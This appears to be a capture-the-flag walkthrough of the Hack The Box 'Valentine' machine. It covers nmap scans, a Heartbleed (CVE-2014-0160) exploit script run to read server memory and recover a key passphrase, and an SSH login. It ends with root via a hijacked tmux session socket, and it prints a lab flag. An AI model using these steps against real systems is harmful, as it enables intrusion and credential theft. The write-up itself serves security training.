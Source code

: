 ```yaml
---
title: HackTheBox - Valentine
date: 2020-12-25 20:45:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nmap scan vuln, CVE-2014-0160, heartbleed, linpeas, tmux, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/valentine.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Valentine-full-port-scan.txt 10.10.10.79
Warning: 10.10.10.79 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.79
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-12-24T14:16:15+00:00; +3m43s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.2.22 (port 443)

Thanks to the [`nmap` scan](#nmap-scan-open-ports) we can identify a domain name: `valentine.htb`. Let's add it to `/etc/hosts`.

#### `dirb`

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/dirb.png)

There is `cgi-bin` directory, is it to vulnerable to **Shellshock** ? Let's look for `.sh` file:

![sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/sh.png)

Nothing found. Let's check the URLs that `dirb` has highlighted.

#####  `/dev` directory

There are two files in the `/dev` directory: 

![dev](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/dev.png)

- **notes.txt**:

![notes](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/notes.png)

- **hype_key**:

![hype_key](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/hype_key.png)

###### cyberchef

Via [CyberChef](https://gchq.github.io/CyberChef/), we decoded **hype_key**:

![cyberchef](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/cyberchef.png)

Since it's an **encrypted** RSA private key (as we can see on line 2), I will not try to log in with ssh, because it will certainly ask for the private key's password.

###### XSS / PHP injection

I saw that we can inject html/javascript code in both `/encode` and `/decode` directories:

![xss](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/xss-3.png)

So I tried to inject a tiny PHP reverse shell:

![php injection](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/php-injection.png)

After multiple attempts, I was pissed off so I ran another nmap scan.

### `nmap` scan (vuln)

```bash
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.79
```

![heartbleed](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/heartbleed.png)

The web server seems vulnerable to the **Heartbleed vulnerability** that affects OpenSSL. 

![xkcd heatbleed explanation](https://https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentines.xkcd.com/comics/heartbleed_explanation.png)

> The Heartbleed bug allows anyone on the Internet to read the memory of the systems protected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and users. [Source: [heartbleed.com](https://heartbleed.com/)]

We can confirm this by using `sslyze`:

![sslyze](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/sslyze.png)

In order to exploit it, we can use this [PoC script](https://gist.github.com/eelsivart/10174134).

When running the script we get an output with a lot of useless 00's:

```bash
$ python heartbleed.py 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display
                        returned data on screen.
$ python heartbleed.py $TARGET
```

![00](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/00.png)

Changing the line 116 allows us to reduce the payload size (0x40 to 0x10):

![payload length](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/payload_length.png)

We can run the script multiple times via the `-n` option. By doing so, we are able to read target's memory's content:

![secret](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/secret.png)
img
$ echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```

`heartbleedbelievethehype` is probably the passphrase of the `hype_key` we found earlier. Let's give it a try with `hype` as username _(because of the filename)_ :

![ssh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/ssh.png)

## User (hype)

```bash
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd216e076961750
hype@Valentine:~/Desktop$ 
```

This time, we do not know the password of the user so we cannot use `sudo` to check if there is a way to perform a privilege escalation.

Therefore, I will use [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to perform enumeration on the system.

> The URL [https://linpeas.sh/](https://linpeas.sh/) exists :D

There are unexpected directories in `/` that we have access:

![unexpected in root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/linpeas-1.png)

![/.devs directory](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/devs.png)

The process below leads us to a privesc:

![strange process](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/linpeas-3.png)

```bash
hype@Valentine:/tmp$ tmux -S /.devs/dev_sess
```

## Root

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/root.png)

___

## Useful links

- [CyberChef](https://gchq.github.io/CyberChef/)
- [CVE-2014-0160](http://cvedetails.com/cve/2014-0160/)
- [Heartbleed](https://heartbleed.com/)
- [Heartbleed exploit PoC](https://gist.github.com/eelsivart/10174134)
